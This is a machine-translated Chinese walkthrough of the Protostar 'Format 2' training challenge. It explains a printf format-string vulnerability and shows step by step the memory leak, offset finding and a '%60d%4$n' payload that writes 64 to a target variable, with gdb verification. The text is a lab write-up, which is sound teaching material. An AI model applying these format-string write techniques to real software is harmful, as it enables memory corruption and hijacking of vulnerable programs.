


# [ExpDev]漏洞利用练习|原恒星|格式 2

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c?source=collection_archive---------1----------------------->


# 格式 2(格式字符串基本 2)

这个挑战的目标是找到我们可以在内存中写入所提供的输入的位置，并找到正确的偏移值来打印获胜的语句。

*   链接:[https://exploit-exercises.lains.space/protostar/format2/](https://exploit-exercises.lains.space/protostar/format2/)



## 注意事项

*   `**char buffer[512]**`:设置缓冲区大小为 512。
*   `**fgets(buffer, sizeof(buffer), stdin)**`:获取用户提供的输入。并且它将缓冲区大小限制为 512。我们最多可以输入 511 个字节，因为 C 总是在末尾添加`0x00`作为终止符。
*   `**printf(buffer);**`:这是这段代码中易受攻击的函数。`printf()`将*而不是*检查所提供的输入是否是预期的格式字符串，因为它被编码为接受任何字符串值。因此，我们所能做的只是验证我们是否可以泄漏内存地址，并且还可以将任意代码写入堆栈(**【读取】** `%p`或`%x` → **【写入】** `%n`)。
*   `**if(target == 64) {**`:变量`target`是我们需要查找的地址。然后，通过利用格式字符串漏洞，我们将向`target`写入任意字节来匹配 64，以打印出获胜的语句。

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么:

```
**$ gdb -q format2**
Reading symbols from /opt/protostar/bin/format2...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```



# 剥削

## 初步侦察

当我们提供一个随机字符串时，它会回显出来，并打印出“target is 0:(”

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format2**
AAAA
target is 0 :(
```

但是如果我们提供一些格式字符串参数(`%x`)，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format2**
AAAA|0000200|b7fd8420    **<-- Leaking memory address**
target is 0 :(***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. The number "08" is called "width field" and 
         is the minimum which will pad the output of the %x 
         specified to 8 characters = 4 bytes long.*
```

## 寻找偏移

接下来，我们需要找到偏移值，我们可以在堆栈上看到我们提供的输入。尝试增加几个`%x`，我们可以发现偏移量为 4。

```
**$ python -c 'print "AAAA" + "|%08x" * 4' | /opt/protostar/bin/format2**
AAAA|00000200|b7fd8420|bffff5d4|**41414141    <-- chr(0x41) = "A"**
target is 0 :(
```

## 寻找“目标”变量地址

```
**$ objdump -t format2 |grep target**
**080496e4** g     O .bss **00000004**              target
```

`target`的地址存在于`0x080496e4`中。将它转换成 little-endian 格式= `\xe4\x96\x04\x08`。

将电源输入更改为找到的`target`地址。但是这次让我们看看是否可以使用`%n`在内存中写一些东西(= *写入作为参数*给出的地址中的字符数)。

```
**$ python -c 'print "\xe4\x96\x04\x08" + "%4$n"' | /opt/protostar/bin/format2**
�
target is 4 :(    **<-- It wrote "4" at the "target" location*****### Format String Explanation
"%4$08n"*** *= Directly access the 4th parameter on stack with "4$" and 
           write the address* (\xe4\x96\x04\x08**)** *there with "%08n"*
```

## 最终利用

太棒了。我们的下一个任务现在很清楚了，我们只需要计算出在将输出写入`target`时，需要多少额外的填充或宽度字段才能使输出达到 64 (= `0x40`十六进制)。肯定有更好的方法来解决这个问题，但是管它呢，这次让我们简单地做一个试错法😛。

好的，所以当我们添加更多的焊盘时，它会增加在`target`写入的输出。所以增加`%60d`宽度解决了这个挑战。

```
$ python -c 'print "\xe4\x96\x04\x08" + **"%10d" + "%4$08n"**' | /opt/protostar/bin/format2
       512
target is 14 :($ python -c 'print "\xe4\x96\x04\x08" + **"%20d" + "%4$08n"**' | /opt/protostar/bin/format2
                 512
target is 24 :($ python -c 'print "\xe4\x96\x04\x08" + **"%60d" + "%4$08n"**' | /opt/protostar/bin/format2
                                                         512
**you have modified the target :)**
```

## 最终利用# 2(*优雅的解决方案)

好吧，等等。让我用一种优雅的方式解释一下🙂。我将向您展示如何计算精确的宽度字段，以获得我们想要的输出。

首先，让我们将初始有效载荷(没有宽度填充)放入一个文件，这样我们就可以用 gdb 运行它。

```
**[Initial Payload]**
$ python -c 'print "\xe4\x96\x04\x08" + "%4$n"' > format2_payload
```

用 gdb 运行`Format 2`，将断点设置在`cmp eax, 0x40`位置。

```
**$ gdb -q format2**
  Reading symbols from /opt/protostar/bin/format2...done.
**(gdb) set disassembly-flavor intel 
(gdb) disassemble vuln**
  Dump of assembler code for function vuln:
  ...(snip)...
  0x0804848a <vuln+54>: mov    eax,ds:0x80496e4
  **0x0804848f <vuln+59>: cmp    eax,0x40**
  ...(snip)...  
  End of assembler dump.
**(gdb) break * 0x0804848f    <-- Breakpoint**
```

现在，让我们用有效载荷运行程序。

```
**(gdb) run < /home/user/format2/format2_payload**

**### Search for the "target"**
**(gdb) x/5x 0x80496e4**
  0x80496e4 <target>: **0x00000004** 0x00000000 0x00000000 0x00000000
  0x80496f4         : 0x00000000
```

你可以看到“4”被写入了`target`。有一种方法可以计算出我们需要填充多少宽度才能得到我们想要的输出。

```
**### Width Calculation**
"Desired byte" - "Current byte" = "Width"
```

我们在广发行做这个吧。

```
**(gdb) print 0x40 - 0x04**
  $1 = 60**"0x40"** = Hex representation of decimal 64 of our desired value
**"0x04"** = The currently outputted value at the "target"
```

好的，它计算了 60 的差异，这是我们的宽度。让我们更新我们的有效载荷，并再次反馈给 gdb 进行确认。

```
**[Final Payload]**
$ python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' > format2_payload**[GDB]**
**(gdb) run < /home/user/format2/format2_payload**
  Starting program: /opt/protostar/bin/format2 < /home/user/format2 
  /format2_payload
                                                         512 Breakpoint 1, 0x0804848f in vuln () at format2/format2.c:15
  15 in format2/format2.c
**(gdb) x/5x 0x80496e4**
  0x80496e4 <target>: **0x00000040** 0x00000000 0x00000000 0x00000000
  0x80496f4\.        : 0x00000000
**--> The output is updated to 0x40 (= 64 in decimal)****(gdb) x/3i $eip    <-- Querying next 3 instruction pointers**
  0x804848f <vuln+59>: cmp    eax,0x40
  0x8048492 <vuln+62>: jne    0x80484a2 <vuln+78>
  0x8048494 <vuln+64>: mov    DWORD PTR [esp],0x8048590
**(gdb) continue**
  Continuing.
  **you have modified the target :)** Program exited with code 040.
```

感谢阅读！

## 下一个挑战:

*   [**格式 3**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83) :格式字符串利用:基本 3

